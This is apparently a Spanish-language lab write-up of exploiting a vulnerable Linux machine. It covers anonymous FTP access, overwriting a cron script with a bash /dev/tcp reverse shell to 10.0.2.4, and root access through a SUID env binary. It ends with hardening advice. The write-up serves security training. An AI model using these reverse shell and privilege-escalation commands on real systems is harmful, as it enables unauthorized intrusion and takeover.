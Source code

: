 # Este repositorio documenta el proceso de explotación de una máquina Linux vulnerable que permite acceso anónimo por FTP, leading to remote code execution (RCE) y escalada de privilegios mediante binarios SUID.

## 1. Objetivos
  -  Demostrar los riesgos de habilitar FTP Anonymous.

  -  Explotar un script malicioso para ganar acceso inicial.

  -  Escalar privilegios abusando de permisos SUID.

## 2.  Audiencia
  -  🛡️ Pentesters y entusiastas de seguridad que buscan practicar:

    -  Enumeración de servicios.

    -  Manipulación de archivos vía FTP.

    -  Técnicas de post-explotación (TTY, PrivEsc).

##  Advertencia
  -  ⚠️ Úsalo solo en entornos autorizados. La explotación no consentida es ilegal.

# **Explotación de Máquina Linux vía FTP Anonymous**  

**Nivel de Dificultad**: Fácil  
**Técnicas usadas**: FTP Anonymous, Manipulación de Scripts, Reverse Shell, Escalada de Privilegios (SUID)  

---

## **Descubrimiento y Enumeración**  

### **1. Escaneo Inicial con Nmap**  
Identificamos los servicios expuestos en la máquina objetivo (`10.0.2.9`):  
```bash
nmap -sV -p- --min-rate 5000 -n -Pn 10.0.2.9 -oN nmap_scan
```  
**Resultados clave**:  
- **Puerto 21/tcp (FTP)**: Servicio **vsftpd** con acceso **Anonymous** habilitado.  

---

## **Explotación del FTP Anonymous**  

### **2. Conexión al Servicio FTP**  
Accedemos sin credenciales (usuario `anonymous`):  
```bash
ftp 10.0.2.9
```  
- **Usuario**: `anonymous`  
- **Contraseña**: (cualquier texto o vacío).  

### **3. Enumeración de Archivos**  
Listamos directorios y encontramos un script sospechoso:  
```bash
ls -la
cd scripts
get clean.sh  # Descargamos el archivo para analizarlo.
```  

### **4. Análisis del Script `clean.sh`**  
Inspeccionamos su contenido:  
```bash
cat clean.sh
```  
**Contenido original**:  
```bash
#!/bin/bash
rm -rf /tmp/logs/*  # Elimina logs temporales.
```  

### **5. Inyección de Reverse Shell**  
Modificamos `clean.sh` para incluir un payload de conexión reversa:  
```bash
echo "bash -i >& /dev/tcp/10.0.2.4/4444 0>&1" > clean.sh
```  

### **6. Subida del Archivo Malicioso**  
Sobrescribimos el script en el servidor:  
```bash
put clean.sh
```  

---

## **Ganando Acceso Inicial**  

### **7. Escucha con Netcat**  
Preparamos una sesión en nuestra máquina para recibir la shell:  
```bash
nc -lvnp 4444
```  

### **8. Ejecución Remota del Script**  
- Si el script se ejecuta automáticamente (ej: tarea cron), obtendremos shell.  
- Si no, esperamos a que un administrador lo ejecute manualmente.  

**¡Shell obtenida!**  

---

## **Post-Explotación**  

### **9. Mejora de la Shell**  
Convertimos la shell en interactiva:  
```bash
script /dev/null -c bash
Ctrl + Z  # Segundo plano
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```  

### **10. Escalada de Privilegios (SUID)**  

#### **Búsqueda de Binarios Vulnerables**  
```bash
find / -perm -4000 2>/dev/null
```  
**Resultado sospechoso**:  
- `/usr/bin/env` (permite ejecución arbitraria).  

#### **Explotación con `env`**  
Ejecutamos una shell como **root**:  
```bash
/usr/bin/env /bin/sh -p
```  
**¡Somos root!**  

---

## **Recolección de Flags**  

- **Flag de usuario**:  
  ```bash
  cat /home/usuario/user.txt
  ```  
- **Flag de root**:  
  ```bash
  cat /root/root.txt
  ```  

---

## **Conclusión y Recomendaciones**  

### **Vulnerabilidades Explotadas**  
1. **FTP Anonymous**: Permitió subir un script malicioso.  
2. **Tarea Cron o Ejecución Manual**: Ejecutó el payload.  
3. **Binario SUID (`/usr/bin/env`)**: Permitió escalar a root.  

### **Recomendaciones de Seguridad**  
✅ **Deshabilitar FTP Anonymous** en `/etc/vsftpd.conf`:  
   ```ini
   anonymous_enable=NO
   ```  
✅ **Restringir permisos SUID** innecesarios:  
   ```bash
   chmod -s /usr/bin/env
   ```  
✅ **Monitorear tareas Cron** y scripts automatizados.  

---

## **Referencias**  
- [GTFOBins: env](https://gtfobins.github.io/gtfobins/env/)  
- [Nmap Cheat Sheet](https://nmap.org/book/man.html)  
